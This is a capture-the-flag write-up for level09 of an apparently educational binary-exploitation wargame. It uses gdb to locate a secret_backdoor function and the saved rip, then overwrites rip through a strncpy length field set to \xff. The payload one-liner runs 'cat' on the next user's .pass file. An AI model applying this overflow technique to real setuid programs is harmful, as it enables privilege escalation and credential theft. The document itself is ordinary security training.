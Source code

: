 ### step 1: Decompile with Ghydra

- Binary in 64-bits

```
level09@OverRide:~$ file level09 
level09: setuid setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xa1a3a49786f29814c5abd4fc6d7a685800a3d454, not stripped
```

- Sources are available in `source`


### step 2: Code Analysis

- the `main` function calls a `handle_msg`function
- the `handle_msg` function has a buffer `ref [140]` that is passed to two functions `set_username` and `set_msg`
- finally we have a `secret_backdoor` function which prompts for and input which is then given has an argument of a `system` call. We want to modifiy the rip (not eip because the binary is in 64-bits) of `handle_msg` function to point to the `secret_backdoor` function and then cat the .pass file with the call of the function `system`

### step 3: Find the adresses

1) `secret_backdoor` function address
```
gdb level09
info functions
```
- `secret_backdoor` function address : `0x000055555555488c`

2) rip address of `handle_msg` function

```
gdb level09
b handle_msg
 r
Starting program: /home/users/level09/level09 
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------

Breakpoint 1, 0x00005555555548c4 in handle_msg ()
(gdb) info frame
Stack level 0, frame at 0x7fffffffe5d0:
 rip = 0x5555555548c4 in handle_msg; saved rip 0x555555554abd
 called by frame at 0x7fffffffe5e0
 Arglist at 0x7fffffffe5c0, args: 
 Locals at 0x7fffffffe5c0, Previous frame's sp is 0x7fffffffe5d0
 Saved registers:
  rbp at 0x7fffffffe5c0, rip at 0x7fffffffe5c8
```
- rip of `handle_msg` function : `0x7fffffffe5c8`

3) `ref` start of buffer address

Set breakpoint before the call of set_msg or set_username in handle_msg because the ref is passed as an argument to these functions so we can find the address in rax

```
gdb level09
start
disas handle_msg
b *0x0000555555554910
c
(gdb) x $rax
0x7fffffffe500:	0x0000000a
```
- `ref`begin address :`0x7fffffffe500`

### Step 4 : Find the offset between ref and rip

- You can find a schema at `/level09/Ressources/Schema.png` which can help to understand the offsets

- the offset between ref and rip address is :
`0x7fffffffe5c8 - 0x7fffffffe500 = 200`

- When analysing decompiled code :
  `set_username` function is writing first input from `ref + 140 to ref + 181`
  `set_msg` function is writing second input from `ref to ref + 180`


### Step 5 : Exploit 

- To overwrite the rip of the `handle_msg` function we need to at `ref + 200`
- How to write more than 180 chars :

```c
strncpy(ref,(char *)buffer,(long)*(int *)(ref + 180));
```

The size of `strncpy` is calculated at the address `ref + 180` : We can input a tricky value with the char `\xff` that is evaluated as 255 -> The `strncpy` will copy up to 255 of our input and we will reach the 200 bytes offset of the `RIP`  

Now we gather all the informations we have to create the exploit :

0x000055555555488c to little endian : \x8c\x48\x55\x55\x55\x55\x00\x00

final string : 

```
(python -c 'print("a" * 40 + "\xFF")' ; python -c 'print(200 * "b" + "\x8c\x48\x55\x55\x55\x55\x00\x00")'; echo 'cat /home/users/end/.pass') | ./level09
```
And we get the flag !

The next user is `end`